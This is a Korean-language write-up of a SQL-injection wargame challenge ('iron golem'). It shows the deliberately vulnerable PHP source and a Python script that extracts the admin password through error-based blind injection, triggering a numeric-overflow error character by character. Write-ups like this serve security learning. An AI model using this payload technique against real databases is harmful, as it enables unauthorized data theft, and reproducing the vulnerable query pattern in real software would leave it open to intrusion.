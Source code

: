 # Lord of SQL Injection No.21 - iron golem
## 문제 출제 의도 
error based를 이용하여 원하는 값을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit(mysql_error());
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```
~~~
if(mysql_error()) exit(mysql_error())
~~~
+ error based를 사용하여 푸는 문제임을 알 수 있다.
## Solution
1. python 코드 사용
```python
import urllib.request
from urllib.parse import quote

key = ""

for i in range(1,10):
    for j in range(32, 127):
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
        data = "' or id='admin' and if((substr(pw, {}, 1)='{}'),9e307*2,0)#".format(str(i), chr(j))
        print(data)
        data = quote(data)

        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

        res = urllib.request.urlopen(re)

        if str(res.read()).find("DOUBLE value is out of range in") != -1:
            key += chr(j)
            print(key)
            break
print(key)
```
+ pw값이 맞을 때마다 에러를 띄운 뒤, 에러를 find함수가 찾으면 j값을 key값에 추가해준다.
+ 코드를 통해 얻은 !!!!를 pw값으로 전달하면 문제가 풀린다.